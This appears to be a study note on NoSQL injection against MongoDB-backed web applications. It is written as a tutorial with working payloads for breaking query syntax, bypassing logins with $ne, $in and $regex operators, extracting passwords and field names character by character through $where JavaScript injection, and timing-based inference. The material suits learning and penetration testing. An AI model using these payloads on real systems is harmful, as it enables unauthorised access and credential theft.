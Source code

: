 # NoSQL injection

<details>

<summary>Introduction to NoSQL databases</summary>

**NoSQL databases**

* They are designed to handle large volumes of unstructured or semi-structured data.
  * benefits in terms of scalability, flexibility, and performance
* Like SQL databases, users interact with data in NoSQL databases using queries but many NoSQL databases use a wide range of query languages instead of a universal standard like SQL (ex. JSON, XML)

**NoSQL database models**

* Document stores - These store data in flexible, semi-structured documents. They typically use formats such as JSON, BSON, and XML, and are queried in an API or query language. Examples include MongoDB and Couchbase.
* Key-value stores - These store data in a key-value format. Each data field is associated with a unique key string. Values are retrieved based on the unique key. Examples include Redis and Amazon DynamoDB.
* Wide-column stores - These organize related data into flexible column families rather than traditional rows. Examples include Apache Cassandra and Apache HBase.
* Graph databases - These use nodes to store data entities, and edges to store relationships between entities. Examples include Neo4j and Amazon Neptune.

</details>

### <mark style="color:yellow;">Types of NoSQL injection</mark> <a href="#types-of-nosql-injection" id="types-of-nosql-injection"></a>

1. Syntax injection - when you can break the NoSQL query syntax, enabling the injection (likeSQLi).
2. Operator injection - when you can use NoSQL query operators to manipulate queries.

## <mark style="color:yellow;">NoSQL syntax injection</mark> <a href="#nosql-syntax-injection" id="nosql-syntax-injection"></a>

* Consider: `https://insecure-website.com/product/lookup?category=fizzy`
* This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
  * `this.category == 'fizzy'`
* Inject: `'` -> `this.category == '''`
  * If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.&#x20;
* Confirm this by submitting a valid query string in the input, ex: `\'` -> `this.category == '\''`
  * If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### <mark style="color:yellow;">**Confirming conditional behavior**</mark>

```markdown
# False condition
' && 0 && 'x
' && '1'=='2

# True condition
' && 1 && 'x 
' && '1'=='1
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.

### <mark style="color:yellow;">**Overriding existing conditions**</mark>

```markdown
# Always true: 
'||1||'
'||'1'=='1'

# Inject: fizzy'||1||'
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

# Back-end code
this.category == 'fizzy'||1||''
```

The modified query returns all items (all the products in any category).

{% hint style="warning" %}
**Warn**: If an application uses it when updating or deleting data, for example, this can result in accidental data loss.
{% endhint %}

**Null character**

MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.

```markdown
# Back-end code
this.category == 'fizzy' && this.released == 1

# Inject null char
https://insecure-website.com/product/lookup?category=fizzy'%00

# Back-end code result [removes the req for the released field to be set to 1]
this.category == 'fizzy'\u0000' && this.released == 1
```

## <mark style="color:yellow;">NoSQL operator injection</mark>

<details>

<summary>Examples of MongoDB query operators</summary>

* `$where` - Matches documents that satisfy a JavaScript expression.

<!---->

* `$ne` - Matches all values that are not equal to a specified value.

<!---->

* `$in` - Matches all of the values specified in an array.

<!---->

* `$regex` - Selects documents where values match a specified regular expression.



MongoDB Query and Projection Operators: [https://www.mongodb.com/docs/manual/reference/operator/query/](https://www.mongodb.com/docs/manual/reference/operator/query/)

</details>

* JSON example:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`

***

* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.

### <mark style="color:yellow;">**Testing**</mark>

```markdown
# Login bypass
{"username":"bob","password":{"$ne":"invalid"}}

# Guess with usernames list
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

# Guess with regex
{"username":{"$regex":"^adm"},"password":{"$ne":""}}
```

**Other tests**

* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

## <mark style="color:yellow;">Extract data</mark>

**INSIDE $WHERE**

* Consider `https://insecure-website.com/user/lookup?username=admin`
* This results in the following NoSQL query of the `users` collection: `{"$where":"this.username == 'admin'"}`
* As the query uses the `$where` operator, you can attempt to inject JavaScript functions.
  * `admin' && this.password[0] == 'a' || 'a'=='b`
    * This returns the first character of the user's password string. You can go on...
  * `admin' && this.password.match(/\d/) || 'a'=='b`
    * Identify whether the password contains digits

***

**INJECT OPERATOR (where)**

* Consider `{"username":"wiener","password":"peter"}`
* Add `$where` operator as an additional parameter. Send one true request and one false request.
  * `{"username":"wiener","password":"peter", "$where":"0"}`
  * `{"username":"wiener","password":"peter", "$where":"1"}`
  * Different responses? This may indicate that the JavaScript expression in the `$where` clause is being evaluated

***

**INJECT OPERATOR (regex)**

* Consider `{"username":"myuser","password":"mypass"}`
  * `{"username":"myuser","password":"incorrect"}` (incorrect password)
  * `{"username":"admin","password":{"$regex":"^.*"}}`
  * Different responses? The app may be vulnerable
* `{"username":"admin","password":{"$regex":"^a*"}}`
  * Extract data character by character

## <mark style="color:yellow;">Identify field names</mark>

**FIRST WAY**

* Send the payload for an existing field and for a field that doesn't exist.&#x20;
* Example
  * `admin' && this.username!='` (you know `username` field exists)
  * `admin' && this.foo!='` (you know `foo` field doesn't exist)
  * `admin' && this.password!='` (you want identify `password` field)
    * `https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'`
* If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).

***

**SECOND WAY**

* You can inject operator?
  * `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  * This query selects documents where the first key (field) of the document starts with the letter "a". You can extract the field name char by char

<details>

<summary>Example</summary>

```json
{
"username":"test",
"$where":"Object.keys(this)[§1§].match('^.{0}§u§.*')"
}
```

With intruder set: 1 payload: numbers, 2 payload: bruteforce chars.



You have :&#x20;

```json
[
    { "apple": "fruit", "color": "red" },
    { "banana": "fruit", "color": "yellow" },
    { "avocado": "fruit", "color": "green" },
    { "berry": "fruit", "color": "blue" }
]
```

Query

```javascript
db.collection.find({ "$where": "Object.keys(this)[0].match('^.{0}a.*')" })
```

```json
[
    { "apple": "fruit", "color": "red" },
    { "avocado": "fruit", "color": "green" }
]
```

</details>

## <mark style="color:yellow;">Timing based injection</mark>

Database error doesn't cause a difference in the application's response? Trigger a conditional time delay

1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. Example `{"$where": "sleep(5000)"}`
3. Identify whether the response loads more slowly

* Trigger a time delay if the password beings with the letter `a`
  * `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  * `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
